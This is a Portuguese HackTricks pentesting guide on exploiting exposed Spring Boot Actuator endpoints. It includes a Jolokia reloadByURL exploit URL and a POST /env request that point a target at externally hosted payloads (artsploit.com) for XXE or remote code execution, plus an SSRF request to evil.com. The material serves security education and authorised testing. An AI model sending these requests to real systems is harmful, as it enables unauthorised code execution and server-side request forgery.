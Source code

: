 # Spring Actuators

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**De** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Verifique a postagem original em** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Pontos Chave:**

* Spring Boot Actuators registra endpoints como `/health`, `/trace`, `/beans`, `/env`, etc. Nas versões 1 a 1.4, esses endpoints são acessíveis sem autenticação. A partir da versão 1.5, apenas `/health` e `/info` são não sensíveis por padrão, mas os desenvolvedores frequentemente desativam essa segurança.
* Certos endpoints do Actuator podem expor dados sensíveis ou permitir ações prejudiciais:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, e `/heapdump`.
* No Spring Boot 1.x, os actuators são registrados sob a URL raiz, enquanto no 2.x, eles estão sob o caminho base `/actuator/`.

### **Técnicas de Exploração:**

1. **Execução Remota de Código via '/jolokia'**:
* O endpoint do actuator `/jolokia` expõe a Biblioteca Jolokia, que permite acesso HTTP a MBeans.
* A ação `reloadByURL` pode ser explorada para recarregar configurações de log de uma URL externa, o que pode levar a XXE cega ou Execução Remota de Código via configurações XML manipuladas.
* URL de exemplo para exploração: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Modificação de Configuração via '/env'**:
* Se as Bibliotecas Spring Cloud estiverem presentes, o endpoint `/env` permite a modificação de propriedades ambientais.
* As propriedades podem ser manipuladas para explorar vulnerabilidades, como a vulnerabilidade de desserialização do XStream no Eureka serviceURL.
*   Exemplo de requisição POST para exploração:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Outras Configurações Úteis**:
* Propriedades como `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, e `spring.datasource.tomcat.max-active` podem ser manipuladas para várias explorações, como injeção SQL ou alteração de strings de conexão de banco de dados.

### **Informações Adicionais:**

* Uma lista abrangente de actuators padrão pode ser encontrada [aqui](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* O endpoint `/env` no Spring Boot 2.x usa o formato JSON para modificação de propriedades, mas o conceito geral permanece o mesmo.

### **Tópicos Relacionados:**

1. **Env + H2 RCE**:
* Detalhes sobre a exploração da combinação do endpoint `/env` e do banco de dados H2 podem ser encontrados [aqui](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF no Spring Boot Através da Interpretação Incorreta de Nomes de Caminho**:
* O manuseio de parâmetros de matriz (`;`) pelo framework Spring em nomes de caminho HTTP pode ser explorado para Server-Side Request Forgery (SSRF).
*   Exemplo de requisição de exploração:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
</details>
{% endhint %}

